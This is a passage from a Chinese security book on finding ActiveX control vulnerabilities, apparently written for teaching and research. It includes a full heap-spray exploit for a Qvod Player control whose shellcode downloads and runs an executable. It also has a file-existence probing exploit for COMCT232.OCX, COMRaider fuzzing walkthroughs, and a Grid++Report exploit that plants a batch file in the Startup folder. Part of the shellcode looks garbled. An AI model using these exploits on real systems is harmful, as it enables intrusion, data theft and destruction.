- 依据被测试 ActiveX 控件外部接口需要参数的形式，将变量传递给外部接口。
- 保存代码，放置该模板网页文件到 Web 服务目录下。
- 用 OllyICE 挂接 Internet Explorer 浏览器，通过浏览器访问模板网页文件。
- OllyICE 监视到浏览器发生错误，则分析错误是否为安全漏洞。如果没有，则修改变量值，返回第 2 步，继续测试。

下面，我们结合一个实际案例来看一看如何利用上述模板网页文件挖掘 ActiveX 控件的安全漏洞。

#### 9.2.3 再现 Q 播 ActiveX 控件 0day 漏洞

本次用来演示的案例来自于 2008 年我公布的一个关于 Qvod Player 播放器控件的安全漏洞。演示用的 Qvod Player 播放器版本为 2.0 稳定版（Build 2.0.0050）。

在安装 Qvod Player 播放器的过程中，Qvod Player 播放器会向系统注册一个 ActiveX 控件，这个控件文件是 QvodInsert.dll。


图 9.14 URL 接口是一个属性接口

打开 OLEVIEW，找到 “QvodInsert 1.0 Type Library” 选项，双击打开该选项，可以看到该控件提供了很多的用户接口，如图 9.14 所示。

在图 9.14 中，我们注意到 “URL” 这个用户接口可以被赋值为一个字符串变量。为此，我们可以针对这个用户接口测试一下是否存在缓冲区溢出漏洞。根据前面教给大家的方法，我们开始修改测试模板，使它成为下面这个样子。

```html
<object classid="clsid:F3D0D36F-23F8-4682-A195-74C92B03D4AF" name="evil"></object>
<script>
var a = Array(10000);
evil.URL = a;
</script>
```

代码中，我们设定了一个字符串变量 a，并且该变量被赋值为一个长度为 10000 字节的字符串，其内容就是 10000 个逗号。与前面学习到的内容一样，`object` 标签引入的就是本次测试的 Qvod Player 播放器控件。


图 9.15 OllyICE 监视到浏览器发生了一个读取错误

其中 `F3D0D36F-23F8-4682-A195-74C92B03D4AF` 是这个控件在系统中注册的 CLSID，而 `evil.URL=a;` 这句代码就是调用了 QvodInsert.dll 组件提供的 URL 接口。

保存测试模板，上传该文件到虚拟机当中 Web 服务目录下，运行 Internet Explorer 浏览器，并且用 OllyICE 程序附加浏览器进程后，用浏览器打开测试模板文件的网址。此刻，OllyICE 监视到浏览器发生了一个读取错误，如图 9.15 所示。


图 9.16 出错指令发生了变化

图 9.15 中可以看到出错的指令是：`cmp byte ptr [eax], 20`。这句指令出错的原因就是因为 eax 寄存器中的内容是 `2C2C2C2C`，这是一个非法的内存地址。

同时，我们注意到 `2C` 正好是逗号的十六进制表示，而测试模板中变量 a 就是被赋值为 10000 字节的逗号，也就是说此刻的 eax 的数值实际上取自过长的变量 a。此刻，你也许会想，先想办法控制 eax 寄存器读取到一个正常的地址上去，然后看看后面程序执行到哪里，再去分析会不会有机会发现控制程序运行流程的机会。可以说，这种方法是比较好的思路，但是，我们将花费很多时间来调整 eax 寄存器的具体数值。即使你可以找到可以读取的地址，然后你还得观察找到的地址赋值给 eax 寄存器后，会不会导致程序后面的执行出错，如果出错又能不能被我们利用来执行任意代码。这两个难点使得我们不得不放弃这样的思路。那么还有什么办法可以帮助我们来改变现状？

现在我们测试的 a 是一个 10000 字节的字符串，按照 9.2.2 中的测试思路，这个 a 变量的长度要是短点或者再长点又会出现怎样的测试结果呢？会不会让我们再次发现点什么呢？

不断修改 a 变量的长度，然后进行测试。在将前面测试模板中 a 变量的长度设置为 11000 时，我们终于发现了一个喜人的画面，如图 9.16 所示。

这一次出错的指令是：`call dword ptr [edx+8]`。


图 9.17 EDX 寄存器的数值正好被四个 2C 覆盖

这是一个调用函数的指令，执行该指令后，程序将运行到 `[edx+8]` 地址指向的内容上去。而此刻，edx 寄存器中的数值竟然是 `2C2C2C2C`，四个逗号！如图 9.17 所示。要知道这四个逗号正好来自于测试模板中的 a 变量。一旦我们控制了 edx，也就能控制 call 指令调用任意指定地址指令了。

这里有一个问题，出错的 call 指令采用的是间接寻址，这意味着 call 指令调用的地址是 `edx+8` 这个地址中的内容。假设 `edx+8` 地址中的内容为 `77225588`，那么这个 `77225588` 才是 call 指令要调用的地址。要知道，程序每次运行时，内存中的数据都是变化的，不可能固定。为此，要想成功利用该漏洞来执行任意代码，就必须使用 heap spray 方法。简单地讲，heap spray 方法就是通过暴力填充内存，使得内存中全是 ShellCode，一旦浏览器因为控件漏洞发生错误，call 指令的地址就会被控制落到某段内存当中，从而执行我们的 ShellCode。根据这个原理，我们假设先填写某段内存一直为一个地址，然后再在这个地址上填充我们的 ShellCode。当浏览器出错后落入带有地址的空间后，call 指令就会取得 ShellCode 所在地址，然后调用该地址，最终执行 ShellCode 代码。

明白了原理，那么利用代码就好写了，代码不长可以参考下面。

```html
<html>
<body>
<object classid="clsid:F3D0D30F-23F8-4b8b-A195-74C92B03D4AF" name="evil1"></object>
<script>
var heapSprayToAddress = 0x05050505;
var shellcode = unescape("%u9090%u9090" +
"%u54eb%u7683%u8f3c%u3574%u0378%u56f5%u768b%u0320" +
"%u3315%u49c5%uad41%udb33%u0f36%u714e%u3829%u74f2" +
"%uc108%u0dcb%uda03%ueb40%u3b8f%u75df%u5ee7%u5e8b" +
"%u0324%u66dd%u0c8b%u8b46%u1c3e%udd03%u048b%u038b" +
"%uc3c5%u7275%u6d6c%u6e6f%u642e%u6c6c%u4300%u5c3a" +
"%u2e65%u7865%u0065%uc033%u0364%u3040%u0c78%u408b");
</script>
</body>
</html>
```

```html
"%u8b0c%u1c70%u8ba9%u0840%u09eb%u408b%u8d34%u7c40" +
"%u408b%u953c%u8ebf%u0ef8%u88c%uff84%uff9f%ec93" +
"%u8304%u242c%uff3c%u85d0%ubf90%u1a36%u702f%u6fe8" +
"%ufff9%ubff9%u2494%u8dfc%uba52%udb33%u5353%ueb52" +
"%c5324%u60ff%ubf6d%ufe90%u0e83%i53e8%uffff%i83f" +
"%u00ec%u2c83%u6224%u00ff%u7ebf%ue2d8%ua873%uff40" +
"%uffff%uff52%ue8d0%uffd7%ufff8%u7468%u7074%u2f3a" +
"%u312f%u3732%u3028%u302e%u312e%u742f%u7365%u2f74" +
"%u2e64%u7865%u0000"; // 这段 ShellCode 的目的是下载 http://127.0.0.1/test/d.exe 文件并且执行该程序

var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u0505%u0505");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i = 0; i < heapBlocks; i++) {
    memory[i] = spraySlide + shellcode;
}
// 以上代码利用 heap_spray 技术实现向浏览器内存中大量填充 ShellCode
try {
    var a = new Array(813);
    a = a + "7rBJ" + "aaaaaaaa...";
    document.write(evil_URL = a);
} catch(e) {}

function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length * 2 < spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0, spraySlideSize);
    return spraySlide;
}
</script>
</body>
</html>
```


图9.18 漏洞成功被触发

其中的 ShellCode 是一段下载并执行 `http://127.0.0.1/test/d.exe` 的代码，你可以任意修改它。需要注意的地方是：

`a=a+"7rBJ"+"aa..."`，这里的“7rBJ”其实是一个地址，翻译成十六进制就是 `0x4A427237`。之所以写成这个地址，是因为我们填充内存的地址存在于 `0x4A404040` 这个空间中，当 call 指令出错时，会先通过 `edx+8` 取出 `0x05050505`，而这个地址恰好又被我们的 ShellCode 填充着，于是浏览器就会顺利执行我们的 ShellCode 代码了。

让我们看看利用成功时的画面，其中 `d.exe` 是一个演示用的可执行文件，如图9.18所示。

可以说 Qvod Player 播放器的这个漏洞是一个稍有难度的漏洞，它其实也是因为过长的字符串造成程序出错，但是不是类似传统的溢出漏洞，而是一个修改了栈中保存的虚函数指针的漏洞，call 指令是这里最为关键的地方，通过巧妙地两次填充，我们还是获得了控制 call 指令地址的机会。

## 9.3 ActiveX 控件漏洞发掘利器—COMRaider

可以说任何漏洞的手工测试过程都是十分辛苦的过程，有一些测试步骤完全是一个循环式的反复过程。为此，可以借助程序将这种测试过程自动化，下面要学习的就是针对 ActiveX 控件如何进行自动化测试的方法。

#### 9.3.1 COMRaider 简介

COMRaider 是由 iDefense.com 公司的安全研究员 David Zimmer 编写的一款专门用来发掘 ActiveX 控件漏洞的安全测试软件，如图9.19所示。


图9.19 COMRaider 的运行界面

COMRaider 的优点在于将测试 ActiveX 控件漏洞的编写测试模板、获取 CLSID、获取用户接口、制定测试参数、测试结果监视五个步骤全部合成为一次操作，大大减轻了安全研究人员的工作量。

COMRaider 能够自动区分出系统中哪些 ActiveX 控件可以被浏览器正常调用。同时，COMRaider 将自动分析出被测试 ActiveX 控件所有的外部接口，包括函数接口以及属性接口。


图9.20 向系统注册 vuln.dll 成功

下面，结合漏洞挖掘实例，来具体了解一下 COMRaider 的具体操作方法和它的工作原理。


图9.21 选择“Choose ActiveX .dll or .ocx file directly”选项

#### 9.3.2 实战 COMRaider

从 iDefense.com 公司的官方网站下载并安装好 COMRaider 程序。该程序自带了一个名叫“vuln.dll”的 ActiveX 控件文件，该文件是一个存在安全漏洞的演示用 ActiveX 控件。我们可以用它来具体学习一下如何利用 COMRaider 程序挖掘 ActiveX 控件漏洞。

首先，需要在命令行窗口下注册 vuln.dll 文件。打开命令行窗口，在其中键入命令 `regsvr32 D:\iDefense\COMRaider\vuln.dll`，这里 regsvr32 后跟的路径地址是 COMRaider 程序的安装路径地址，这里将 COMRaider 程序安装在了 D 盘下面。回车，如图9.20所示。

成功将 vuln.dll 文件注册进入系统后，我们就可以启动 COMRaider 程序，点击其右上角的“Start”按钮，出现一个新的窗口，如图9.21所示。


图9.22 选择打开“vuln.dll”文件

图9.24 选择“Method1”用户接口作为测试对象


图9.23 COMRaider 程序自动分析出 vuln.dll 注册的用户接口


图9.25 右击“Method1”这个用户接口选择“Fuzz member”


图9.26 选择“Fuzz member”选项后程序将自动生成测试模板文件

默认情况下，图9.21中 COMRaider 程序自动选择第一项，即“Choose ActiveX dll or ocx file directly”，意思是直接选择被测试 ActiveX 控件文件。点击“Next”按钮，选择打开 vuln.dll 文件，如图9.22所示。

成功打开 vuln.dll 文件之后，COMRaider 程序将会分析出当前 ActiveX 控件所有的用户接口，如图9.23所示。

这里选择“Method1”这个用户接口作为被测试用户接口，点击该接口后，我们能够看到该接口的具体信息，如图9.24所示。

图9.24中我们可以看出，Method1 这个用户接口是一个函数类型的用户接口，它有一个参数，该参数是一个 String 类型的参数，也就是字符串类型的参数。

鼠标右击“Method1”这个用户接口，在出现的菜单中选择“Fuzz member”，如图9.25所示。

选择“Fuzz member”选项后，COMRaider 程序将生成测试模板，同时在程序右下方显示这些测试模板文件，如图9.26所示。

点击“Next”按钮，进入待测试窗口，如图9.27所示。

无需做任何修改，直接点击“Begin Fuzzing”按钮，COMRaider 程序将会进入自动测试状态。期间，程序会发生弹出窗口或者警告提示等现象，这都无须理会，只需要等待测试自动结束即可。测试结束后，COMRaider 程序会给出一个测试结果统计对话框，如图9.28所示。


图9.27 COMRaider 的测试窗口界面


图9.28 COMRaider 测试完毕后的统计结果对话框


图9.29 测试中出现异常错误的测试模板文件

从图9.28中看出，本次测试中出现了7次异常错误。点击“OK”按钮，我们来分析一下这些异常错误。如图9.29所示。图9.29中我们看到，COMRaider 程序会自动记录下测试中出现的异常错误。图9.29中“Result”一栏中显示了出现异常错误的基本原因。其中，Timeout 发生了四次，这代表测试超时的意思，所以直接排除。我们重点关注的应当是出现“Caused Exception”这样原因的异常错误。

点击出现 Caused Exception 异常错误的任意一行（这里选择图中的第二行），在 COMRaider 程序窗口的中间部分会显示出发生错误的具体指令信息，如图9.30所示。双击该行，将看到更加详细的错误信息，如图9.31所示。


图9.30 COMRaider 程序可以记录下出现错误时的具体指令信息

虽然此刻知道被测试的 vuln.dll 发生了异常错误，但是，我们如何才能知道该错误是怎么被触发的呢？回到图9.30的窗口当中，在第二行的位置右击，出现一个菜单，如图9.32所示。选择菜单中的第二个选项“View File”后，会出现一个记事本程序，其中的代码如下：


图9.31 COMRaider 可以提供更加详细的错误信息

```xml
<?xml version="1.0" standalone="yes"?>
<package>
  <job id="DoneInVBS" debug="false" error="true">
    <object classid="clsid:8EF2AD7C-6E69-4144-96AA-2247D892A73D" id="target"/>
    <script language="vbscript">
```

```vb
'File Generated by COMRaider v0.0.133 - http://labs.idefense.com
Wscript.echo typename(target)
'for debugging/custom prolog

targetFile="D:\iDefense\COMRaider\vuln.dll"  '被测试的 ActiveX 控件文件名称
prototype="Function Method1 (ByVal sPath As String) As Long"
memberName="Method1"  '被测试的用户接口
progId="VULNLib.server"
argCount=1  '被测试用户接口的参数个数

arg1=String(9236,"A")  '设置一个 9236 个字母 A 组成的字符串变量作为参数使用
target.Method1 arg1  '调用被测试用户接口并传递给它相应的测试参数
</script></job></package>
```

看到这段代码，你一定觉得有些眼熟，它与我们前面手工测试所使用的测试模板有些相像。

其实，COMRaider 程序生成的测试模板文件都是利用脚本代码编写而成，虽然这些文件的类型被保存为 wsf 文件，但是其中的代码是利用了 VBS 脚本编写而成。根据这些 wsf 文件，我们可以轻而易举地将它们改造成我们测试模板的样子。


图9.32 右击出错行位置

上面这段代码中，arg1 这个变量为一个 9236 字节长度的字符串，它被当作参数传递给被测试用户接口 Method1；Method1 这个用户接口没有正确处理好如此长度的参数，最终导致异常错误的发生。


图9.33 设置 COMRaider 的“Launch in OIl”选项

在上面这个例子中，虽然我们看到利用 COMRaider 程序可以快速发现被测试 ActiveX 控件中存在的异常错误，但是，我们还不能判断这些异常错误是不是可以被利用的安全漏洞。为此，我们需要进行调试，来逐步分析一下哪些异常错误属于安全漏洞。COMRaider 程序在这方面也做好了准备。

在图9.32中显示的菜单中，有一个名为“Launch in OIl”的选项，该选项的意思就是利用 OllyICE 程序来调试当前测试。初次使用时，该选项会出现一个设置对话框，如图9.33所示。


图9.34 COMRaider 会调用 OllyICE 来调试当前测试过程

其中，需要设置的地方是“Debugger”这一行，点击该行右侧的按钮，正确选择到 OllyICE 程序所在的位置即可，最后点击“Done”按钮完成。设置完成后，选择“Launch in OIl”选项后就会直接运行 OllyICE 程序来对测试脚本文件 wsf 进行调试，如图9.34所示。

COMRaider 程序利用 wscript.exe 程序作为主体，来结合 OllyICE 进行对 wsf 测试脚本的调试工作。这期间为了监视到具体过程，我们需要进行一些设置。在 OllyICE 主窗口中按下 Ctrl+G 组合键，输入“DispCallFunc”回车，来到 DispCallFunc 函数的入口，如图9.35所示。


之所以找到这个函数是因为，如果此刻我们直接运行 OllyICE 程序，wscript.exe 程序将马上执行测试脚本文件，OllyICE 程序只能监视到最后出现错误的指令。这期间具体发生了什么，vuln.dll 的 Method1 用户接口是什么时候被调用的，都无法得知。而 DispCallFunc 函数就是负责最终调用 ActiveX 控件接口的关键函数。只要程序使用 ActiveX 控件的用户接口，都必须首先进入这个函数。

从图9.35中向下寻找“call ecx”指令，找到后按 F2 键在此处下一个断点，如图9.36所示。按 F9 键，让 OllyICE 程序运行起来。很快，OllyICE 程序将中断在 call ecx 指令地址上，如图9.37所示。


此时，有一条很关键的信息：当前 call ecx 指令中 ecx 寄存器指向的地址就是被测用户接口所在的内存地址。从这里开始，程序将进入到 ActiveX 控件的内存地址当中去调用用户接口代码段。从这里开始，我们就可以使用 F7 功能键逐步调试错误发生的具体原因。最终我们发现，Method1 在处理过长的数据时确实发生了溢出现象，但是最终会导致程序被自动关闭，无法控制程序的执行流程。

难道说，虽然我们通过 COMRaider 程序发现了 vuln.dll 控件的 Method1 存在处理过长数据不当的问题，它却不是安全漏洞，这也太令人失望了。事实果真如此吗？

依旧利用 COMRaider 程序打开 vuln.dll，选择测试 Method1 用户接口，在点击“Begin Fuzzing”按钮后，测试过程中，凡是 COMRaider 程序弹出新的对话框，一律点击“确定”按钮，而不要任由 COMRaider 程序自己测试直到结束。


测试完成后，我们逐行点击出现“Caused Exception”错误的地方，会发现有一个错误显示得与众不同，如图9.38所示。图9.38这里显示程序在运行到内存地址为 41414141 时发生了内存读取错误。这个错误看起来与缓冲区溢出漏洞发生的错误非常相近。

在出现该错误的这一行，鼠标右击选择“View File”查看本次测试脚本文件代码，如下所示。

```vb
<?xml version='1.0' standalone='yes' ?>
<package><job id='DoneInVBS' debug='false' error='true'>
<object classid='clsid:8EF2AD7C-6E69-4144-96AA-2247D892A73D' id='target'/>
<script language='vbscript'>

'File Generated by COMRaider_v0_0_133 -- http://labs.idefense.com
WScript.echo typename(target)
'for debugging/custom prolog

targetFile = "D:\iDefense\COMRaider\vuln.dll"  '被测试的 ActiveX 控件文件名称
prototype = "Function Method1 (ByVal sPath As String) As Long"
memberName = "Method1"  '被测试的用户接口
progid = "VULNLib.server"
argCount = 1  '被测试用户接口的参数个数

arg1 = String(4116, "A")
target.Method1 arg1
</script></job></package>
```


图9.39 进入 Method1 函数

测试代码中显示，arg1 变量是由 4116 个字母 A 组成的字符串变量，它被传递给被测试用户接口 Method1。很巧的是，出错的内存地址为 41414141，而字母 A 的十六进制表示正好是 41。为了揭开这两者之间的关系，这次使用 OllyICE 程序来对测试脚本进行调试。


图9.40 在“xor eax, eax”指令处下断点

还是在出现错误的这一行，鼠标右击选择“Launch in OIl”，打开 OllyICE 程序，根据上一节中的方法在 call ecx 处下断点，运行 OllyICE 程序，中断后按 F7 功能键进入 Method1 函数的处理代码地址处，如图9.39所示。


图9.41 注意此刻的函数返回地址变成了41414141

向下找到“USER32.MessageBoxA”，在其后的“xor eax, eax”这一行按 F2 键下断点，如图9.40所示。

按 F9 功能键，运行 OllyICE 程序。稍作等待，会弹出一个带有字母 A 的对话框，直接点击“确定”按钮后，OllyICE 中断下来，按 F8 功能键六次，停下来，如图9.41所示。

Method1 用户接口在最后返回的时候，它的返回地址变为 41414141，这个数值来自于程序栈空间中的内容，如图 9.42 所示。

这些充满 41 的内容其实就来自于测试代码中的 arg1 变量，也就是说，Method1 用户接口在处理过长的 arg1 变量时，用其覆盖了函数的返回地址，一个典型缓冲区溢出被我们挖掘出来了。

### 9.4 剑走偏锋的 ActiveX 控件信息泄露漏洞

ActiveX 控件在功能上是为了能够作为一个组件供系统调用。它是一个完整的程序，所以，根据开发者的要求，ActiveX 控件在功能上不仅仅可以处理数据信息，还可以操作文件系统或者注册表系统。这样丰富的功能，虽然有力提升了 ActiveX 控件本身的作用，但是对于系统安全来说，却成为一个挑战。

如果 ActiveX 控件的开发者对控件操作的目标文件不进行认真严格的审查，恶意攻击者只要利用网页代码向 ActiveX 控件传递文件名称作为参数，就可能会获取到用户系统中的敏感文件内容，这种安全漏洞被称之为“信息泄露”漏洞。挖掘这种安全漏洞与挖掘前面那些 ActiveX 控件安全漏洞的方法基本一致，不过，在获取到 CLSID 值和用户接口后，我们不再需要使用 OllyICE 程序来进行调试，也不需要 COMRaider 程序辅助自动化测试，具体方法将通过下面的这个案例演示给大家。

“COMCT232.OCX”控件是微软公司开发的一个 ActiveX 控件，其全称为 Microsoft Common Controls 2 ActiveX Control DLL。这个控件向系统注册的“Animation”控件类存在一个远程文件判断的安全漏洞。

本次测试环境为 Windows XP SP2 简体中文版，浏览器是 Internet Explorer 7 版本，COMCT232.OCX 版本为 6.0.80.22。

用 COMRaider 程序打开该文件，查看一下“Animation”控件类的用户接口，如图 9.43 所示。

“Animation”控件类的“Open”用户接口，从名字上来看，是一个用来打开文件的用户接口。我们写了一段网页代码来调用该接口，代码如下。

```html
<object classid='clsid:1F216240-1B7D-11CF-9D53-00AA003C9CB6'
name='evil'></object>
<script language=javascript>
try{evil.Open("c:\\1.exe")} ; catch(e){
  document.write(e.message)
}
</script>
```

解释一下这段测试代码的意思，代码中利用 try…catch 语句捕获调用 Open 用户接口时可能发生的错误，并且利用 document.write 语句将出现的错误信息打印出来。保存测试代码为一个网页文件，同时上传该文件到远程 Web 服务器目录中，用浏览器打开该网页文件，如图 9.44 所示（图中灰色的方框代表控件已经被浏览器成功调用）。

此刻 Internet Explorer 浏览器提示网页存在错误，内容是“File not found”，即文件未找到。分析前面的测试代码，我们传递给 Open 用户接口的参数是“c:\\1.exe”，这是一个不存在的文件。如果我们现在传递给 Open 用户接口一个存在文件的文件名称会出现什么情况呢？修改测试代码为下面的代码。

图 9.44 此刻浏览器显示的内容为“File not found”

```html
<object classid="clsid:1F216240-1B7D-11CF-9D53-00AA003C9CB6" name="evil"></object>
<script language="javascript">
try{eval(evil.Open("c:\\windows\\system32\\cmd.exe"));}catch(e){
  document.write(e.message);
}
</script>
```

这一次，我们传递给 Open 用户接口的参数是系统 cmd.exe 程序所在的完整路径。再次保存该测试代码，并上传至服务器，用浏览器打开新的测试网页，如图 9.45 所示。

这一次，浏览器给出的错误提示为“Unable to open AVI file”，意思是打不开目标 AVI 文件。这意味着，Open 用户接口会将传递给它的参数当作一个 AVI 文件来打开；同时，最为重要的是，在打开文件之前，Open 用户接口首先会判断该文件是否存在，并给出相应的提示信息。现在，如果利用 Open 用户接口的这个机制，传递给它不同的文件名称，它就会在用户系统中尝试打开这些文件；如果不存在就提示“File not found”，存在就提示“Unable to open AVI file”。如此一来，我们不就可以判断出用户系统中有哪些文件了吗？而这原本是不应该被系统以外的用户获得的信息，利用代码如下所示。

图 9.45 此刻浏览器显示的内容为“Unable to open AVI file”

图 9.46 利用错误信息的不同成功实现远程判断用户文件列表

```html
<object classid="clsid:1F216240-1B7D-11CF-9D53-00AA003C9CB6" name="evil"></object>
<script language="javascript">
try{eval(evil.Open("c:\\windows\\system32\\cmd.exe"));}catch(e){
  if(e.message=="Unable to open AVI file") document.write("cmd.exe文件存在");
}
try{eval(evil.Open("d:\\机密.doc"));}catch(e){
  if(e.message=="Unable to open AVI file") document.write("机密.doc文件存在");
}
</script>
```

将这段利用代码放置在远程 Web 服务器上，用浏览器访问，效果如图 9.46 所示。恶意攻击者只需要简单改写一下这段利用代码，当受害用户使用浏览器访问恶意攻击者的网页文件时，恶意攻击者就可以远程获取到受害用户系统上的文件列表信息，从而有针对性地进行下一步入侵。

### 9.5 文件越权操作漏洞与新型网页木马

#### 9.5.1 文件越权操作的意义

在我们实际接触的一些 ActiveX 控件中，有一部分是专门处理文件信息的，例如多媒体播放器的 ActiveX 控件，它们能够被网页代码调用来播放媒体文件，只要传递给它媒体文件的地址，ActiveX 控件就能够播放这些媒体文件。由于与文件打交道，ActiveX 控件不但可以处理网络上的文件，同时也能够处理存放在用户本地计算机上的文件。但是，在处理文件的时候，ActiveX 控件的开发者应当严格控制控件本身的权限，尤其是针对本地计算机上的文件操作。举个例子来说，如果一个 ActiveX 控件提供了一个外部接口可以用来删除文件，那么如果恶意攻击者建立一个网页文件，在其中调用这个 ActiveX 控件并且传递给它一个文件名如“C://boot.ini”，当用户使用浏览器访问这个网页文件时，ActiveX 控件就会删除用户系统中 C 盘下的 boot.ini 文件。要知道这是一个系统核心文件，一旦被删除，用户在下次启动计算机时就会发生无法进入系统的现象，从而破坏了用户的计算机系统。

ActiveX 控件的这种不安全文件操作的危害不仅仅如此，它还能够帮助恶意攻击者在用户系统上建立恶意代码文件，从而实现控制用户系统的目的。我们下面将要学习的案例就是一个利用 ActiveX 控件的安全漏洞来攻击用户系统的漏洞挖掘全过程。

> **小提示：**我们这里没有给大家解释标题中的“新型网页木马”的概念，不要着急，在揭开答案之前，我们首先需要实事求是地研究下面的内容。

#### 9.5.2 危险的 Grid++Report ActiveX 控件 0day

Grid++Report 是由广州锐浪软件技术有限公司开发的一款 C/S 与 B/S 集成报表工具，支持 Web 调用，它主要用于报表软件的开发，可以作为一个组件来直接调用。很多报表软件在开发中都采用了 Grid++Report 作为自己的报表生成组件。

但是，Grid++Report 提供的 ActiveX 控件却存在着一个严重的安全漏洞，恶意攻击者借助这个漏洞就可以在用户的系统上建立恶意代码文件。在用户重启计算机后，恶意代码就会被执行，从而实现远程控制用户系统的目的。

> **小提示：**这个漏洞被我发现后，我在第一时间联系了 Grid++Report 的开发商，同时汇报了漏洞的详情，他们已经确认漏洞的存在，并且在积极处理此事。

首先，我们来介绍一下本次学习的软件环境。

- 操作系统：Windows XP SP2 32 位版本
- 漏洞测试目标软件：Grid++Report 5.2 版本
- 漏洞测试运行辅助环境：IIS 5
- 漏洞挖掘辅助程序：COMRaider

在系统中安装好 Grid++Report 5.2 版本后，我们利用 COMRaider 打开位于“C:\\WINDOWS\\system32”目录下的 griectl.dll 这个文件，如图 9.47 所示。griectl.dll 文件是 Grid++Report 5.2 程序向系统注册的一个 ActiveX 控件。该控件有一个外部接口函数，名为“SaveToFile”，如图 9.48 所示。从这个函数的名字上来看，它是一个将某内容保存到文件中的函数，现在，让我们调用一下这个函数，看一看有什么效果。新建一个记事本文本，在其中输入以下代码。

图 9.47 利用 COMRaider 打开 griectl.dll 文件

```html
<object classid="clsid:50CA95AE-BDAA-4C69-A9C6-93E1136E68BC" name="evil"></object>
<script>
try{evil.SaveToFile("C:\\1.txt")}catch(e){}
</script>
```

保存上述代码为 gp.htm，并将其放置在 IIS 的 Web 目录当中。然后，我们运行 Internet Explorer 浏览器，在其中输入网址 http://127.0.0.1/gp.htm 回车，如图 9.49 所示。

图 9.48 griectl.dll 文件提供了一个名为“SaveToFile”的外部接口。

浏览器给出了一个需要加载 ActiveX 控件的提示条，用鼠标点击该提示条，选择“运行加载项”后会出现一个新的提示对话框，如图 9.50 所示。

图 9.49 浏览器给出一个加载控件的安全提示。

点击“运行”按钮，浏览器将会自动加载 Grid++Report 5.2 程序的 ActiveX 控件，如图 9.51 所示。

图 9.50 选择“运行加载项”后会出现一个新的提示对话框。  
图 9.51 浏览器似乎没有任何变化。

## 第9章 ActiveX 控件漏洞挖掘技术

从图 9.51 中看，浏览器似乎没有发生任何变化；先不要下结论。让我们打开本地 C 盘看一看，如图 9.52 所示。

> **注意：**图 9.52 中黑框显示的部分，我们发现在 C 盘分区下出现了一个“1.txt”文件。前面 gp.htm 中的代码调用了 griectl.dll 控件的 SaveToFile 外部接口，并且给 SaveToFile 传递了参数，正好就是 C 盘下“1.txt”文件的路径名。

现在，打开“1.txt”文件，其中保存的内容如下。

```text
Object Report
  Version='5.1.10.418'
  Title='你的报表标题'
  Object Font
    Name='宋体'
    Size=105000.0
    Weight=400
    Charset=134
  End
  Object Printer
  End
End
```

图 9.52 C 盘下新生成了一个名为“1.txt”的文件。

原来“1.txt”保存的是关于报表的一些信息。此时，我们想到如果能够修改“1.txt”中保存的这些报表信息，让它们成为 DOS 命令，然后利用 SaveToFile 这个外部接口将 DOS 命令保存为 .bat 批处理文件，并将这个批处理文件保存到用户系统的启动文件目录中，那么当用户重启系统后，批处理文件就会被系统自动运行，执行保存在其中的 DOS 命令，从而可以借助 DOS 命令向用户系统中添加用户或者运行木马病毒程序。

要实现这个目的，我们第一步的任务就是看看如何能够控制“1.txt”中保存的报表信息。通过 COMRaider 程序，我们又找到了一个有用的外部接口“LoadFromURL”。这个外部接口将加载一个报表文件，我们可以通过修改报表文件的内容，然后利用“LoadFromURL”这个外部接口加载进入内存，最后通过 SaveToFile 这个外部接口将我们的内容保存到用户系统当中。

首先，建立一个名为“1a.grf”的文件，用记事本打开它，在其中键入以下代码。

```text
Object Report
  Version='5.2.0.0'
  Title='你的报表标题'
  Object Font
    Name='宋体'
    Size=105000.0
    Weight=400
    Charset=134
  End
  Object Printer
  End
  Object DetailGrid
    Object Recordset
      ConnectionString='s''||net user > c:/1.txt||'''
    End
  End
End
QuerySQL="net user>C:/1.txt"
Items=Field
  Item
    Name="net user>C:/1.txt"
  End
End
End
End
End
```

大家注意到，在这个 1a.grf 文件当中，我们加入了几条 DOS 命令：“net user>C:/1.txt”，这条命令的意思是将当前系统中所有用户信息保存到 C 盘下的 1.txt 文件中。你可以将它换为其他 DOS 命令，我们这里只是做一个演示。

修改 gp.htm 文件的内容为以下代码。

```html
<object classid="clsid:50CA95AE-BDAA-4C69-A9C6-93E1136E68BC" name="evil"></object>
<script>
  evil.LoadFromURL("http://127.0.0.1/1a.grf")
  try{evil.SaveToFile("C:\\Documents and Settings\\administrator\\「开始」菜单\\程序\\启动\\1.bat")}catch(e){}
</script>
```

上面的代码首先是利用“LoadFromURL”这个外部接口加载“1a.grf”文件到内存当中，然后利用 SaveToFile 外部接口将“1a.grf”文件的内容保存到用户系统启动目录中的“1.bat”文件当中。

图 9.53 访问“gp.htm”网页后启动目录中生成 1.bat 文件。

将“1a.grf”文件和“gp.htm”文件都放置到 IIS 的 Web 目录当中，然后，我们再次运行 Internet Explorer 浏览器，访问“gp.htm”文件。之后，我们会发现在本地计算机的启动目录中多了一个“1.bat”文件，如图 9.53 所示。用记事本打开“1.bat”文件你会发现其中的内容与“1a.grf”文件一模一样。这个时候，如果你重启计算机，你会发现在进入系统的瞬间“1.bat”文件会被执行，同时，C 盘下会多出两个文件“1.txt”和“1.txt”。用记事本打开“1.txt”文件你会发现其中保存了当前系统的所有用户名，如图 9.54 所示。

图 9.54 1.txt 文件保存了 1.bat 运行后的结果。

如果我们在“1a.grf”中输入的 DOS 命令是一个格式化硬盘命令，那么此刻用户硬盘上的数据可能已经灰飞烟灭了。

现在，是我们需要为大家解释什么叫做“新型网页木马”的时候了。一般来说，传统的网页木马都是借助 ActiveX 控件或者浏览器软件本身的溢出漏洞来实现执行任意 ShellCode 的目的，在这些网页木马的利用代码中往往会使用一种叫做“heap spray”的技术。

“heap spray”技术说简单一点儿，就是利用网页脚本代码向浏览器内存中大量重复性地放置 ShellCode。一旦浏览器发生错误，CPU 被控制跳转到浏览器的内存中时，就会成功执行 ShellCode。这种技术主要是为了绕过系统的一些自我保护功能，达到最终执行任意代码的目的。

## 第9章 ActiveX 控件漏洞挖掘技术

而用来实现“heap spray”技术的网页脚本代码是非常固定的，很多网页木马程序都是直接将这些代码拿来放入到自己的网页代码当中。例如，下面就是一个用来实现“heap spray”技术的网页脚本代码。

```javascript
var heapSprayToAddress = 0x05050505; // 这里为填充ShellCode代码的起始内存地址
var shellcode = unescape("%u9090...");
